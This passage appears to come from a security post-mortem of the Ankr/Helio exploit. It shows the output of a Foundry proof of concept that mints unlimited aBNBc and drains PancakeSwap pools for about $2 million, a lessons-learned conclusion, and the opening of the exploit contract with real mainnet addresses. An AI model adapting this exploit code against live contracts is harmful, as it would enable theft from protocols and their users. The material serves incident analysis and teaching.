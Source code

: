 Now that our malicious implementation is in place, simply calling the evil mint function on the proxy will mint an unlimited number of tokens which we can then sell for a profit. We'll interface with the PankcakeSwap router to swap our tokens for USDC via wBNB, draining the liquidity pool in the process which can be seen in the full test exploit below.

If we run this PoC against the forked block number, we will get the following output:

```
aBNBc minted: 10000000000000000000000000000000
USDC received: 1947301589818705183929984
```

A cool $2 million in profit, which of course could be increased by minting more aBNBc as was done in the real attack.

Similarly, for the Helio section of the exploit, will see:

```
HAY received: 17500000000000000000000000
BUSD received: 1825906255318519034250193
```

Again, almost $2 million in profit.

### Conclusion
The Ankr exploit was an unfortunate hack which had even more severe secondary effects. The attack stresses the importance of secure key management and use of appropriate multisignature access controls when making protocol changes. Furthermore, Helio demonstrates that extreme care should be taking when configuring price oracles, especially in the case that assumptions are being made about the price of like-assets.

It should be noted that a recovery fund has been coordinated to compensate affected users and cover bad Helio debt, as described in this [blog post](https://www.ankr.com/blog/ankr-makes-progress-with-recovery-program-targets-and-milestones/).

This is what our entire PoC looks like, with the addition of some helpful Foundry assertions and logs:

```
contract Exploit is Test {
    address public constant ANKR_DEPLOYER = 0x2Ffc59d32A524611Bb891cab759112A51f9e33C0;
    address public constant ANKR_PROXY_ADMIN = 0x1bD5dF997c8612652886723406131F582ab93DEf;
    address public constant ABNBC_PROXY = 0xE85aFCcDaFBE7F2B096f268e31ccE3da8dA2990A;
    address public constant HELIO_INTERACTION = 0xB68443Ee3e828baD1526b3e0Bdf2Dfc6b1975ec4;
    address public constant HELIO_PROVIDER = 0xa835F890Fcde7679e7F7711aBfd515d2A267Ed0B;
    address public constant HELIO_BNB = 0x4b30fcAA7945fE9fDEFD2895aae539ba102Ed6F6;
    address public constant HELIO_HAY = 0x0782b6d8c4551B9760e74c0545a9bCD90bdc41E5;
    address public constant CE_ROUTER = 0xA186D2363E5048D129E0a35E2fddDe767d4dada8;
    address public constant CE_ABNBC = 0x563282106A5B0538f8673c787B3A16D3Cc1DbF1a;
    uint256 public constant EXPLOIT_AMOUNT = 10_000_000_000_000 ether;
    address public ANKR_EXPLOITER;
    address public HELIO_EXPLOITER;
    EvilImplementation public evilImpl;

    address public constant WBNB = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address public constant BUSD = 0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56;
    address public constant USDC = 0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d;
    address[] aBNBcToUSDC = [ABNBC_PROXY, WBNB, BUSD, USDC];
    address[] wBNBToaBNBc = [WBNB, ABNBC_PROXY];
    address[] hayToBUSD= [HELIO_HAY, BUSD];
    IPancakePair WBNB_ABNBC_PAIR = IPancakePair(payable(0x272c2CF847A49215A3A1D4bFf8760E503A06f880));
    IPancakeRouter PANCAKE_ROUTER = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));

    function setUp() public {
        vm.createSelectFork("bsc", 23545400);

```